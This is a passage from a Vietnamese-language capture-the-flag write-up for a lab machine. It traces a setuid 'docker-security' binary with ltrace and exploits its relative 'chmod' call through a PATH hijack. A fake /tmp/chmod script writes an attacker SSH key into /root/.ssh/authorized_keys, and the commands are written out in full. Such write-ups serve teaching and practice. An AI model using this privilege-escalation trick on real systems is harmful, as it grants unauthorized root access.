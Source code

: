 ```powershell
dexter@laboratory:~$ docker-security
dexter@laboratory:~$
```

Vì vậy, có thể chạy nó với ltrace:

```powershell
dexter@laboratory:~$ ltrace docker-security
setuid(0)                                                                                                                         = -1
setgid(0)                                                                                                                         = -1
system("chmod 700 /usr/bin/docker"/tmp/chmod: 1: cannot create /root/.ssh/authorized_keys: Permission denied
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                            = 512
system("chmod 660 /var/run/docker.sock"/tmp/chmod: 1: cannot create /root/.ssh/authorized_keys: Permission denied
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                            = 512
+++ exited (status 0) +++
```
Nhìn vào dấu vết, nhị phân đang gọi `system("chmod 700 /usr/bin/docker")`. Bây giờ, điều thú vị cần lưu ý là `chmod` không được gọi từ đường dẫn tuyệt đối của nó mà phải là `/usr/bin/chmod`

```powershell
dexter@laboratory:~$ which chmod
/usr/bin/chmod
```
Đường dẫn hiện tại:

```shell
dexter@laboratory:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/snap/bin
```
Vì vậy, tác gủa có thể giả mạo `chmod` của riêng mình, cập nhật đường dẫn và nhầm lẫn ứng dụng thực thi `chmod` của tác giả

Tác giả  sẽ tạo khóa ssh bằng `ssh-keygen -f cfx`:

```powershell
dexter@laboratory:/tmp$ cat chmod
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDFJ4KUY9Dzy4UKYRwT+ORSIGW1W2YSKQrqIlNfRksWqWOz3bCJCE5gImrgx/lsL/kItrEvy9js4nQ1zmUrJ6kSYU7[..SNIP..]Rws4b8UeKpU+ft6Uk root@cfx" > /root/.ssh/authorized_keys

dexter@laboratory:/tmp$ chmod +x chmod
dexter@laboratory:/tmp$ export PATH=/tmp:$PATH
```

Đã cập nhật PATH:

```shell
dexter@laboratory:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/snap/bin
```
